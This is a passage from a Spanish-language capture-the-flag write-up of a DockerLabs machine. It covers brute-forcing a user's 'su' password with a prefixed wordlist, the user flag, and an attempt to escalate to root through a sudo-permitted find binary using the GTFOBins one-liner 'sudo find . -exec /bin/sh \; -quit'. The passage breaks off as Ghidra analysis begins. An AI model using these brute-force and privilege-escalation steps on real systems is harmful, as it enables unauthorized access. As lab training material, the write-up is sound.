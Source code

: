 Lo que vamos hacer es utilizar la palabra `Passw0rd2` delante de las palabras del diccionario que pongamos, lo ejecutaremos de la siguiente forma:

```shell
bash suBruteforceUpdate.sh administrator <WORDLIST>
```

Info:

```
[+] Contraseña encontrada para el usuario administrator:Passw0rd2kitty1
```

Como resultado vemos que la contraseña es:

```
Passw0rd2kitty1
```

Si esto lo probamos para el usuario `Administrator` veremos que funciona.

```shell
su administrator
```

Metemos como contraseña `Passw0rd2kitty1` y veremos que estamos dentro, por lo que leeremos la flag del usuario.

> user.txt

```
1be10a286d4effa0df103518e39ea316
```

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for administrator on dockerlabs:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User administrator may run the following commands on dockerlabs:
    (ALL : ALL) /usr/bin/find
```

Por lo que vemos podemos ejecutar como `root` el binario `find`, pero si nos vamos a `GTFOBins` y buscamos la escala del binario no aparecera algo asi:

```shell
sudo find . -exec /bin/sh \; -quit
```

Pero esto no va a funcionar y podemos deducir que es un binario modificado, por lo que no es el original, vamos a realizarle ingenieria inversa para ver que contiene.

### Ghidra
